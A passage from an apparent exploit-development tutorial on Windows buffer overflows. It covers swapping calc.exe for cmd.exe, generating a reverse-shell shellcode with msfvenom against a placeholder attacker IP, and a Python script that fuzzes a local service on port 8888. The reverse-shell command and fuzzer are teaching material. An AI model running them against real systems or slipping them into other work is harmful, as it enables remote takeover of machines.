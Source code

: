 To gain code execution, we just need to replace `calc.exe` by `cmd.exe`. In order to get a reverse shell, we should select another payload for the shellcode:

```bash
# List all reverse shell payloads for windows
msfvenom -l payloads | grep windows | grep reverse
# Generate the shellcode
msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python'
```

## Remote fuzzing

So far, we have been discussing about local buffer overflow. When it comes to remote, most of the parts are exactly the same, but the exploit construction is slightly different.

Let's imagine we have a program that listens in port 8888 and accepts an input via network. We can automate the process of crashing with it with a small python script:

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 8888

def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A"*i
            print("Fuzzing %s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            breakpoint()
            s.close()
    except:
        print("Could not establish a connection")

fuzz()
```

When the script is executed, it loops through all the range. However, in the debugger, we see the EIP register overwritten with `A`. This indicates that the networking part is not vulnerable to buffer overflow, however the user-facing program it is and must be processing the input somehow.

We can do this gradually by placing a breakpoint in the for loop to be able to give us some time to check the EIP register.

## Building a remote exploit

After fuzzing the listening port, the remaining buffer overflow identification and exploitation steps should be largely the same as local buffer overflow exploitation. The main steps we followed in previous sections were:
